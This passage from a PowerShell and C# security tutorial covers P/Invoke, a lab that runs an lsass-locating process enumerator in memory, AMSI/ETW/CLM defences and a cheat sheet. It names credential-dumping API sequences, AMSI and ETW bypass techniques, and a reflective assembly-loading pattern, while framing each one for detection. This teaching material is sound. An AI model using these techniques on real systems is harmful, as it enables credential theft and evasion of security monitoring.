padding, matching the C definition byte-for-byte. `[MarshalAs(UnmanagedType.ByValTStr, SizeConst
= 260)]` tells the marshaller the `szExeFile` field is an inline fixed-length character array
(`char[260]`), not a pointer — get this wrong and you read garbage or crash.

**`IntPtr`** is C#'s pointer-sized integer: it holds handles (`HANDLE`), addresses, and anything
the API returns as an opaque pointer. It is 4 bytes on x86, 8 on x64, so code using it stays
architecture-correct.

| Win32 C type | C# marshalling type |
|--------------|---------------------|
| `HANDLE`, `HMODULE`, `LPVOID` | `IntPtr` |
| `DWORD` | `uint` |
| `BOOL` | `bool` |
| `LPCWSTR` / `LPWSTR` | `string` (with `CharSet.Unicode`) |
| `LPSTR` | `string` (with `CharSet.Ansi`) |
| `struct*` (in/out) | `ref` / `out` struct, or `IntPtr` |
| `BYTE[]` | `byte[]` |

## Part 11: P/Invoke & How Offensive .NET Tooling Is Built

**P/Invoke** (Platform Invocation Services) is the mechanism that lets managed C# call an
unmanaged native function. You declare a static `extern` method decorated with `[DllImport]`, and
the CLR handles finding the export, marshalling arguments across the boundary, and returning the
result. This is the beating heart of tools like Rubeus, SharpHound's collectors, Seatbelt, and
essentially every "Sharp*" project.

The canonical example: enumerate processes via the ToolHelp snapshot API, the same technique a
credential-hunting tool uses to find `lsass.exe`:

```csharp
using System;
using System.Runtime.InteropServices;

class ProcEnum
{
    const uint TH32CS_SNAPPROCESS = 0x00000002;

    [StructLayout(LayoutKind.Sequential)]
    struct PROCESSENTRY32
    {
        public uint dwSize;
        public uint cntUsage;
        public uint th32ProcessID;
        public IntPtr th32DefaultHeapID;
        public uint th32ModuleID;
        public uint cntThreads;
        public uint th32ParentProcessID;
        public int  pcPriClassBase;
        public uint dwFlags;
        [MarshalAs(UnmanagedType.ByValTStr, SizeConst = 260)]
        public string szExeFile;
    }

    [DllImport("kernel32.dll", SetLastError = true)]
    static extern IntPtr CreateToolhelp32Snapshot(uint dwFlags, uint th32ProcessID);

    [DllImport("kernel32.dll", CharSet = CharSet.Auto)]
    static extern bool Process32First(IntPtr hSnapshot, ref PROCESSENTRY32 lppe);

    [DllImport("kernel32.dll", CharSet = CharSet.Auto)]
    static extern bool Process32Next(IntPtr hSnapshot, ref PROCESSENTRY32 lppe);

    [DllImport("kernel32.dll", SetLastError = true)]
    static extern bool CloseHandle(IntPtr hObject);

    static void Main()
    {
        IntPtr snap = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
        if (snap == IntPtr.Zero || snap.ToInt64() == -1)
        {
            Console.WriteLine("Snapshot failed: " + Marshal.GetLastWin32Error());
            return;
        }

        var pe = new PROCESSENTRY32();
        pe.dwSize = (uint)Marshal.SizeOf(typeof(PROCESSENTRY32));   // MUST set dwSize first

        Console.WriteLine("{0,-6} {1,-6} {2}", "PID", "PPID", "Name");
        if (Process32First(snap, ref pe))
        {
            do
            {
                Console.WriteLine("{0,-6} {1,-6} {2}",
                    pe.th32ProcessID, pe.th32ParentProcessID, pe.szExeFile);
            }
            while (Process32Next(snap, ref pe));
        }
        CloseHandle(snap);
    }
}
```

Walk the P/Invoke details, because every one is a real-world gotcha:

- `[DllImport("kernel32.dll", SetLastError = true)]` — declares the import. `SetLastError = true`
  tells the marshaller to capture the Win32 error code after the call so `Marshal.GetLastWin32Error()`
  works; forget it and your error handling is silently wrong.
- `CharSet = CharSet.Auto` on the ToolHelp functions selects the `...W` (wide/Unicode) export and
  marshals `szExeFile` as UTF-16, matching modern Windows.
- `ref PROCESSENTRY32` passes the struct by reference — the API fills it in place, the C# `ref`
  keyword maps to the C `LPPROCESSENTRY32` out-pointer.
- **`pe.dwSize = Marshal.SizeOf(...)` is mandatory and the classic beginner bug.** ToolHelp checks
  that the caller-supplied size matches the struct it expects; leave it zero and `Process32First`
  returns `false` with error 24 (`ERROR_BAD_LENGTH`). This "first field is the size of the struct"
  convention appears all over Win32.

**Red team relevance:** this is the same code shape a tool uses to locate a target process before
calling `OpenProcess` + `MiniDumpWriteDump` on `lsass.exe`. Seatbelt, SharpUp, and the Rubeus
family are, at their core, hundreds of `[DllImport]` declarations plus logic. Learning to read one
means you can read all of them. **Blue team relevance:** these API sequences
(`CreateToolhelp32Snapshot` → `OpenProcess` → `MiniDumpWriteDump`, or the `Nt*` equivalents) are
exactly what EDR hooks and Sysmon (Event ID 10, `ProcessAccess` to `lsass.exe`) are watching for.

**Reflective / in-memory loading — the fileless story.** The reason .NET tooling terrifies
defenders is that an assembly need never touch disk. `Assembly.Load(byte[])` takes raw bytes and
loads a runnable assembly directly into the current process:

```powershell
# Conceptual — recognise this pattern in logs/memory:
$bytes = [System.Convert]::FromBase64String($b64Assembly)
$asm   = [System.Reflection.Assembly]::Load($bytes)
$asm.EntryPoint.Invoke($null, @(,[string[]]@('-args')))
```

No file is written, no `csc.exe` runs on the victim, and `powershell.exe` (or a custom loader)
hosts the CLR that executes it. Cobalt Strike's `execute-assembly` and Covenant's Grunts use this
so an operator can run SharpHound entirely in memory. This is precisely why detection moved from
"scan files on disk" to **AMSI** (which scans the in-memory content) and **ETW** (which reports
assembly loads) — covered in Part 13.

## Part 12: Hands-On Lab — Compile and Run the C# Process Enumerator

**Goal.** Take the `ProcEnum` code from Part 11 and actually build and run it, two ways: as a
standalone `.exe` with the framework compiler, and — the more interesting path — compiled and
executed **entirely in memory** from PowerShell via `Add-Type`, so you see the fileless technique
first-hand on a host you own.

**Lab setup.** The same Windows VM. Save the Part 11 C# into `ProcEnum.cs`.

**Path A — standalone executable (`csc.exe`).**

```powershell
$csc = "$env:WINDIR\Microsoft.NET\Framework64\v4.0.30319\csc.exe"
& $csc /nologo /out:ProcEnum.exe ProcEnum.cs
.\ProcEnum.exe | Select-Object -First 8
```

```text
PID    PPID   Name
0      0      [System Process]
4      0      System
188    4      Registry
640    980    lsass.exe
980    652    svchost.exe
1420   980    svchost.exe
8124   9012   powershell.exe
7710   3344   updater.exe
```

There is `lsass.exe` at PID 640 — the enumeration worked. Note the assembly on disk is now a real
PE file an AV engine can scan and a defender can hash.

**Path B — compile and run in memory (no `.exe` on disk).** Wrap the class body in `Add-Type`,
which compiles the C# to an in-memory assembly and exposes the type immediately:

```powershell
$source = Get-Content .\ProcEnum.cs -Raw
# Strip the Main() so we can expose the enumeration as a callable static method instead:
Add-Type -TypeDefinition $source -Language CSharp
# If ProcEnum exposed a public static Run(), you would now call:  [ProcEnum]::Run()
```

For a clean in-memory demo, refactor `Main` into a `public static` method and call it directly:

```powershell
Add-Type -TypeDefinition @"
using System;
using System.Runtime.InteropServices;
public class ProcList {
    const uint SNAP = 0x2;
    [StructLayout(LayoutKind.Sequential)]
    struct PE32 { public uint dwSize; public uint c1; public uint pid; public IntPtr h;
                  public uint m; public uint threads; public uint ppid; public int pri; public uint f;
                  [MarshalAs(UnmanagedType.ByValTStr, SizeConst=260)] public string exe; }
    [DllImport("kernel32.dll", SetLastError=true)] static extern IntPtr CreateToolhelp32Snapshot(uint f, uint p);
    [DllImport("kernel32.dll", CharSet=CharSet.Auto)] static extern bool Process32First(IntPtr h, ref PE32 e);
    [DllImport("kernel32.dll", CharSet=CharSet.Auto)] static extern bool Process32Next(IntPtr h, ref PE32 e);
    public static void Run() {
        IntPtr s = CreateToolhelp32Snapshot(SNAP, 0);
        var e = new PE32(); e.dwSize = (uint)Marshal.SizeOf(typeof(PE32));
        if (Process32First(s, ref e)) do {
            Console.WriteLine(e.pid + "`t" + e.ppid + "`t" + e.exe);
        } while (Process32Next(s, ref e));
    }
}
"@
[ProcList]::Run() | Select-String lsass
```

```text
640     980     lsass.exe
```

**What just happened, and why it matters for both sides.** No `ProcEnum.exe` was written for Path
B — the C# was compiled by `Add-Type` into a temporary in-memory assembly inside the PowerShell
process and its P/Invoke method ran there. That is a miniature of `execute-assembly`. As a
**defender**, notice what telemetry *would* still fire: Script Block Logging (Event ID 4104)
captures the full `Add-Type` source including the `DllImport` strings; AMSI scans the compiled
buffer; and the `csc.exe` that `Add-Type` invokes under the hood briefly appears as a child
process writing a temp file to `%TEMP%`. Path B is fileless in the "no attacker EXE on disk" sense,
but it is far from invisible — a lesson that generalises to almost all "fileless" tradecraft.

**Extend the lab:** add `OpenProcess` and query the token to print each process's owner; add a
filter to flag any process whose parent is `wmiprvse.exe` or `services.exe` but whose image lives
in a user-writable path (a common LOLBin/persistence pattern).

## Part 13: Detection & Defense Angle — AMSI, Logging, CLM & ETW

Everything above has a defensive mirror image, and Microsoft has layered several controls
specifically at the PowerShell/.NET attack surface. A defender must know each one: what it sees,
where it sits, and how it is bypassed — because bypasses are exactly what you hunt for.



**AMSI (Antimalware Scan Interface).** AMSI is a Windows API that lets the scripting host hand the
**deobfuscated, about-to-execute** content to the registered AV/EDR for a verdict. It defeats the
old game of hiding malice behind Base64 and string concatenation, because it sees the final string
*after* PowerShell has assembled it, right before `Invoke-Expression` runs. This is why the classic
`IEX (New-Object Net.WebClient)...` cradle now trips instantly on a patched host. Attackers respond
with **AMSI bypasses** — patching `amsi.dll!AmsiScanBuffer` in memory, or forcing
`amsiInitFailed = $true` via reflection. **Blue team:** alert on the well-known bypass strings and,
better, on the *behaviour* (a process patching `amsi.dll`, catchable via ETW/EDR memory
telemetry). Bypass strings are a signature arms race; behavioural detection is durable.

**Script Block Logging (Event ID 4104).** Enabled via Group Policy
(`Administrative Templates → Windows Components → Windows PowerShell → Turn on PowerShell Script
Block Logging`), this records the **full text of every script block PowerShell compiles**, after
deobfuscation, to the `Microsoft-Windows-PowerShell/Operational` log. It is the single most
valuable PowerShell detection source: even a heavily obfuscated one-liner is logged in its expanded
form. Pair it with **Module Logging** (4103) and **Transcription** (full session transcripts to
disk) for defence in depth.

**Constrained Language Mode (CLM).** CLM restricts PowerShell to a safe subset — it blocks
arbitrary .NET method calls, `Add-Type`, `New-Object` on most types, and P/Invoke — while still
allowing normal cmdlets. When enforced by **WDAC / AppLocker** in the right mode, CLM neuters most
of Parts 6, 11, and 12: no ad-hoc `[Win32]::...` calls, no in-memory `Add-Type`. Attackers hunt for
CLM bypasses (custom runspaces, older .NET versions, `InstallUtil`), so verifying CLM is actually
*enforced* (not just set) matters:

```powershell
$ExecutionContext.SessionState.LanguageMode   # FullLanguage vs ConstrainedLanguage
```

**ETW (Event Tracing for Windows).** Below the log layer, ETW providers emit high-fidelity events
including .NET assembly loads (the `Microsoft-Windows-DotNETRuntime` provider) and, via the
`Microsoft-Windows-Threat-Intelligence` provider, sensitive API calls used by EDR. In-memory
`Assembly.Load` still generates ETW telemetry, which is how modern EDR catches `execute-assembly`
that leaves no file. Attackers attempt **ETW patching** (`ntdll!EtwEventWrite`); a process blinding
ETW is itself a strong detection.

| Control | Sits at | What it sees | Typical bypass to hunt for |
|---------|---------|--------------|----------------------------|
| AMSI | Scripting host / .NET | Deobfuscated content pre-exec | `amsi.dll` memory patch, `amsiInitFailed` reflection |
| Script Block Logging (4104) | PowerShell engine | Full expanded script text | Downgrade to PS2, custom runspace host |
| Module Logging (4103) | PowerShell engine | Cmdlet invocations + params | Same as above |
| Constrained Language Mode | PowerShell engine | Restricts .NET/Add-Type/P-Invoke | CLM bypass gadgets, old .NET, InstallUtil |
| ETW (.NET / TI provider) | Kernel/runtime | Assembly loads, sensitive APIs | `EtwEventWrite` patch, provider unhooking |
| Sysmon (1,7,10,11) | Kernel driver | Proc create, image load, lsass access | Rename, unhook, direct syscalls |

**Defender's synthesis.** No single control is sufficient; the value is in correlation. A
credential-theft attempt via a C# tool might show: Sysmon Event 1 (`powershell.exe` or a loader
starting), 4104 capturing an `Add-Type` with `OpenProcess`/`MiniDumpWriteDump` P/Invokes, an AMSI
verdict, ETW reporting an in-memory assembly load, and Sysmon Event 10 (`ProcessAccess` targeting
`lsass.exe` with `PROCESS_VM_READ`). Any one may be evaded; the *combination* is what a mature SOC
alerts on. This is why understanding how the offensive tooling is built (Parts 6–12) is a
prerequisite for building the detections — you cannot alert on a technique you cannot describe.

## Final Revision — Recap

- **PowerShell is .NET with a shell on top.** Every command emits **objects**, not text; the
  pipeline passes typed objects and rendering happens last. `Get-Member`, `Get-Command`, and
  `Get-Help` are the three commands that let you learn everything else (Parts 1–3).
- **Cmdlets are `Verb-Noun`** with dash-parameters, switches, and common parameters
  (`-ErrorAction`, `-WhatIf`). Aliases (`gps`, `?`, `%`, `iex`) are both convenience and the raw
  material of obfuscation you must be able to expand (Part 3).
- **Variables are loosely typed but backed by real .NET types**; arrays, hashtables, and automatic
  variables (`$_`, `$env:`, `$?`) are daily tools. Comparison operators are **words** (`-eq`,
  `-gt`, `-match`), not symbols (Parts 4–5).
- **The .NET bridge** (`[Class]::Method()`, `New-Object`, `Add-Type`) is PowerShell's real power
  and its real danger — it reaches the whole framework and the Win32 API with nothing on disk
  (Part 6).
- **Remoting** runs over WinRM (5985/5986); `Enter-PSSession`, `Invoke-Command`, and persistent
  `New-PSSession` are the admin and lateral-movement primitives. Remote objects are deserialized
  property bags (Part 7).
- **C# compiles to CIL in assemblies run by the CLR**; the same runtime hosts PowerShell, which is
  why `Add-Type` works and why tools ship as both `.exe` and reflectively-loadable assembly
  (Part 9).
- **P/Invoke** (`[DllImport]` + `[StructLayout]` + marshalling) is how managed C# calls native
  Win32; it is the core of every "Sharp*" tool. Set `dwSize`, set `SetLastError`, get the
  `CharSet` right (Parts 10–11).
- **In-memory `Assembly.Load(byte[])`** is the fileless foundation of `execute-assembly`; it is
  still visible to AMSI, Script Block Logging, and ETW (Parts 11–13).
- **Defense is layered:** AMSI (content), 4104/4103 (text), CLM (capability), ETW/Sysmon
  (behaviour). Correlation beats any single control (Part 13).

## Cheat Sheet / Quick Reference

**Discovery / orientation**

```powershell
$PSVersionTable                       # which PowerShell + CLR
Get-Command -Noun Service             # find cmdlets by noun
Get-Help Get-Service -Examples        # usage examples
Get-Process | Get-Member              # inspect an object's members
$ExecutionContext.SessionState.LanguageMode   # Full vs Constrained
whoami /priv                          # token privileges (native)
```

**Pipeline essentials**

```powershell
Get-X | Where-Object { $_.Prop -eq 'v' }      # filter  (alias: ?)
Get-X | ForEach-Object { $_.Method() }        # iterate (alias: %)
Get-X | Select-Object Name, Id -First 5       # pick props / rows
Get-X | Sort-Object Prop -Descending          # sort by typed prop
Get-X | Group-Object Prop                     # bucket by property
... | ConvertTo-Json -Depth 4 | Out-File f.json
... | Export-Csv out.csv -NoTypeInformation
```

**.NET bridge**

```powershell
[System.Math]::Sqrt(2)
[Convert]::ToBase64String([Text.Encoding]::UTF8.GetBytes("x"))
$o = New-Object Net.WebClient ;  $o.DownloadString($url)
[System.Reflection.Assembly]::Load($bytes)    # in-memory load
Add-Type -TypeDefinition $csharp -Language CSharp
```

**Remoting**

```powershell
Enter-PSSession -ComputerName H -Credential (Get-Credential)
Invoke-Command -ComputerName A,B,C -ScriptBlock { Get-Service }
$s = New-PSSession -ComputerName H -Credential $c ; Remove-PSSession $s
```

**C# / build**

```powershell
$csc = "$env:WINDIR\Microsoft.NET\Framework64\v4.0.30319\csc.exe"
& $csc /nologo /out:tool.exe Program.cs         # framework compiler
dotnet build -c Release                          # modern .NET SDK
ildasm tool.exe   # inspect CIL   |   dnSpy / ILSpy  # decompile
```

**P/Invoke skeleton**

```csharp
[DllImport("kernel32.dll", SetLastError = true, CharSet = CharSet.Auto)]
static extern IntPtr OpenProcess(uint access, bool inherit, uint pid);
// [StructLayout(LayoutKind.Sequential)] on structs; set first size field.
```

**Defender quick hits**

```text
Event 4104  = Script Block Logging (expanded script text)  -> Microsoft-Windows-PowerShell/Operational
Event 4103  = Module Logging (cmdlet + params)
Event 400/800 = engine start / pipeline (legacy)
Sysmon 1/7/10/11 = proc create / image load / lsass access / file create
Watch: amsi.dll patch, EtwEventWrite patch, wsmprovhost.exe children, csc.exe from AppData
```

## Common Pitfalls & Misconceptions

- **"PowerShell output is text."** No — it is objects until the last render step. Parsing
  PowerShell output with string tools instead of `Select-Object`/`Where-Object` is the number-one
  beginner mistake and produces brittle scripts.
- **`>` is not greater-than.** In PowerShell `>` redirects to a file; comparison is `-gt`. Writing
  `if ($x > 5)` silently creates a file named `5`.
- **Forgetting `dwSize` in Win32 structs.** `Process32First`, `STARTUPINFO`, and many others check
  the size field; a zero `dwSize` fails with `ERROR_BAD_LENGTH` (24). Always
  `Marshal.SizeOf(...)` it.
- **Wrong `CharSet` / marshalling.** Declaring a `LPWSTR` field as ANSI, or omitting
  `[MarshalAs]` on a fixed buffer, yields garbage strings or access violations, not a clean error.
- **Assuming "fileless" means "invisible."** In-memory `Add-Type` and `Assembly.Load` still emit
  4104, AMSI, and ETW telemetry, and `Add-Type` even spawns `csc.exe` writing to `%TEMP%`. Fileless
  ≠ undetectable.
- **Confusing `powershell.exe` and `pwsh.exe`.** They are different products with different logging
  configs. Monitoring only one leaves a blind spot.
- **Deserialized remote objects.** Objects returned from `Invoke-Command` are inert property bags;
  call methods *inside* the remote scriptblock, not on the returned result locally.
- **Trusting Execution Policy as a security boundary.** `Set-ExecutionPolicy` is a safety
  guardrail, not a control — `-ExecutionPolicy Bypass`, piping to `powershell -`, or `IEX` all
  sidestep it trivially. Real control is CLM + WDAC/AppLocker.

## Practice Labs & Resources

- **Under the Wire — "Century" and "Groundhog"** (`underthewire.tech`): PowerShell-only wargames,
  the direct PowerShell analogue of OverTheWire's Bandit. The best hands-on way to build pipeline
  fluency (Parts 2–7).
- **TryHackMe — "Hacking with PowerShell", "PowerShell for Pentesters", "Windows Local
  Persistence"**: guided rooms that map onto the triage collector and autorun-persistence findings
  from Part 8.
- **TryHackMe — "Windows Event Logs" and "Sysmon"** and **Blue Team Labs Online**: work Event ID
  4104/4103 and Sysmon 10 detections from the defender's seat (Part 13).
- **HackTheBox — Windows machines with WinRM entry** (e.g., boxes rooted via `evil-winrm` on
  5985): exercise the remoting and lateral-movement material from Part 7 end-to-end.
- **GhostPack source** (`SharpHound`, `Rubeus`, `Seatbelt`, `SharpUp` on GitHub): read real
  offensive C#. Start with Seatbelt's `[DllImport]` declarations and compare them to the ProcEnum
  lab — you will recognise the exact patterns from Parts 10–11.
- **`Add-Type` / P/Invoke practice**: reproduce the Part 12 lab, then extend it to `OpenProcess` +
  token-owner lookup. Compile once with `csc.exe` and once in-memory with `Add-Type`, and diff the
  telemetry (4104, `csc.exe` in `%TEMP%`, AMSI) between the two paths.
- **pinvoke.net**: the community reference for Win32 signatures in C#/VB — the practical lookup you
  will use whenever you need a new `[DllImport]`.
- **Microsoft "PowerShell ♥ the Blue Team"** and the **DotNET runtime docs on the CLR/assemblies**:
  authoritative background for the logging pipeline (Part 13) and the runtime model (Part 9).
